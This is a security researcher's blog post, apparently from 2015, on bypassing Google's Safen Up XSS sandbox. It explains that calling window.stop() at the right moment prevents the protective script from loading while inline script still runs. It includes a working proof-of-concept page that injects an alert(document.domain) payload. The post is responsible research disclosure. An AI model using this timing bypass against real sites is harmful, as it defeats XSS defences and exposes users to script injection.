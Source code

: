 ```yaml
---
title: "XSS via window.stop() - Google Safen Up"
date: "2015-05-01"
description: "XSS via proper timing of window.stop()"
---
```


In the beginning of 2015, Google launched a new program called [Vulnerability Research Grants](https://www.google.com/about/appsecurity/research-grants/), "_with the goal of rewarding security researchers that look into the security of Google products and services even in the case when no vulnerabilities are found_". I have submitted quite a few bugs to them and decided to give it a try. The grant was given to me after a few days of waiting and my task was to check [Google Safen Up](https://safendup-xss-game.appspot.com/) application which presents an interesting approach to minimize effects of XSS-es.

The page is quite simple and seems to be very easily exploitable, just have a look...

[![](http://2.bp.blogspot.com/-E4Y6h-CxevI/VUPmRxozuTI/AAAAAAAAAGA/5PG4HKeafOo/s1600/safen1.png)](http://2.bp.blogspot.com/-E4Y6h-CxevI/VUPmRxozuTI/AAAAAAAAAGA/5PG4HKeafOo/s1600/safen1.png)

Sending simple XSS payload...

[![](http://2.bp.blogspot.com/-vJzjIstFtI8/VUPmR-4eV7I/AAAAAAAAAGE/OVCm3TdHWXk/s1600/safen2.png)](http://2.bp.blogspot.com/-vJzjIstFtI8/VUPmR-4eV7I/AAAAAAAAAGE/OVCm3TdHWXk/s1600/safen2.png)

... and it works!

So what's the deal? The deal is when you try to `alert(document.domain)`:

[![](http://4.bp.blogspot.com/-g13VwKkyiEc/VUPmRwoeCpI/AAAAAAAAAF8/knKfUzlDU0c/s1600/safen3.png)](http://4.bp.blogspot.com/-g13VwKkyiEc/VUPmRwoeCpI/AAAAAAAAAF8/knKfUzlDU0c/s1600/safen3.png)

The XSS executes but in a completely different, sandbox domain. Thanks to that, most malicious effects of XSS are mitigated as the other domain has no access to any sensitive data.

The HTML source of the XSS-ed page was:

```html
<!DOCTYPE html>
<html>
  <head>
    <script src="//safenup.googleusercontent.com/safen-me-up.js"></script>
    <title>Hello, world of XSS</title>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
  <body id="level1">
        <img src="/static/logos/level1.png" />      
    <div>
      Sorry, no results were found for
      <b
        ><script>
          alert(document.domain);
        </script></b
      >. <a href=".">Try again</a>.    
    </div>
  </body>
</html>
```

Looking just at the source, it may seem as if the XSS should fire in the original domain but the whole magic actually happens in the `safen-me-up.js` file. It creates a new iframe, put everything that is after the script tag in it and then remove all the elements (besides the iframe of course) from the original site.

So is it possible to bypass the protection? Actually I found a way. The whole security of the solution is based on including a single JS file. What if that would be possible to make it not being included at all? I stepped on an interesting behavior of Chrome which seemingly was also a novel attack type for members of Google Security Team.

It is very simple: when you hit the Stop button in Chrome, it immediately stops fetching any external resources (including scripts) but **will still happily execute inline scripts**. Hence, if you happen to press stop at the right time, you’ll prevent the browser from loading `safen-me-up.js`, making the XSS execute on the right domain. To do that programmatically you need to use `window.stop()` method.

The right moment to stop is difficult to predict as it depends on a lot of factors, especially on network bandwidth. Hence I have prepared a script which tries to load the page in iframe and stop it after an increasing intervals of time, starting with 100ms. It did a pretty good job on several machines I tested ergo I think we can say it's somewhat reliable.

Here's the script:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>XSS@Safen Up</title>
  </head>
  <body>
    <script>
      var url =
        'https://safendup-xss-game.appspot.com/?query=<u>xsstest\\u003cscript>alert(document.domain),top.postMessage(31337,"\*")\\u003c/script>';
      var run = true;
      var time = 100;
      var timeDelta = 25;
      window.addEventListener("message", onmessage, false);
      function onmessage(ev) {
        if (ev.data !== 31337) return;
        var out =
          ev.origin === "https://safendup-xss-game.appspot.com"
            ? "Time <b>" + time + "</b> ms does the trick for you."
            : "Oops! Wrong origin, the time is probably too big.";
        document.getElementById("outputText").innerHTML = out;
        run = false;
      }
      function testXSS() {
        if (!run) return;
        window[0].location = url + "&" + Math.random();
        setTimeout(function () {
          window.stop();
          time += timeDelta;
          setTimeout(testXSS, 10);
        }, time);
      }
      setTimeout(testXSS, 1000);
    </script>
    <iframe src="about:blank"></iframe>
    <span id="outputText"></span>
  </body>
</html>
```

And here's a proof that it worked:

<iframe src="https://www.youtube.com/embed/jsLYPwQoLAQ" title="" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

XSS executed on safendup-xss-game.appspot.com so everything's just fine :)

I'd like to thank Google Security Team for the research grant and hope the next ones will also result in finding interesting bugs :)
